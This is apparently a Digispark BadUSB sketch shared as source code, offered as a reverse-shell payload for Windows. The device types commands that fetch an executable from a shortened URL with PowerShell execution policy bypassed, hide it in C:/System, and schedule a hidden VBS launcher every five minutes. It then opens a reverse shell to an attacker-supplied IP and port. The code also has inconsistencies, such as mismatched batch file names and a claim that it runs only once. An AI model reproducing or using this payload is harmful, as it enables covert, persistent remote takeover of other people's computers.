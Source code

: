 This payload is a reverse shell that runs in the background every 5 minutes. Replace [IP] with your listening IP and [PORT] with a port of your choice. (Ex. 25565).

(Payload runs only once)

#include "DigiKeyboard.h"
void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("cd / & mkdir System & cd System & echo (wget 'https://tinyurl.com/y88r9epk' -OutFile a.exe) > b.PS1 & powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("echo START /MIN a.exe IP PORT -e cmd.exe -d ^& exit > start.bat");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("echo Set WshShell = CreateObject('WScript.Shell') > c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo WshShell.Run chr(34) ^& C:/System/d.bat ^& Chr(34), 0 >> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("echo Set WshShell = Nothing >>> c.vbs");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.print("schtasks /create /tn TaskSystem /tr C:/System/c.vbs /sc minute /mo 5");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(75);
  DigiKeyboard.print("START /MIN a.exe [IP] [PORT] -e cmd.exe -d & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}
void loop() {
}